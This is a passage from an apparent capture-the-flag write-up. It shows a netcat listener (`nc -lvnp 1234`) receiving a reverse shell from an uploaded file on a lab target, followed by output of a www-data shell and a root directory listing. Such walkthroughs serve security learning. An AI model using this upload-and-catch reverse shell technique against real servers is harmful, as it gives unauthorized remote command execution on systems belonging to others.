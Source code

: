![alt text](image-13.png#center)

<br>

After the file was uploaded, I navaigated to the `/privacy`. Before opening up the reverse-shell file, I had run the netcat command thats running on port 1234 to capture and receive the reverse shell connection.

```shell
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.6.67.243] from (UNKNOWN) [10.10.103.254] 56504
Linux a2b9a5609bd8 4.15.0-109-generic #110-Ubuntu SMP Tue Jun 23 02:39:32 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 03:50:14 up  1:26,  0 users,  load average: 0.03, 0.01, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ ls
bin
boot
dev
etc
home
lib
lib32
lib64
libx32
media
```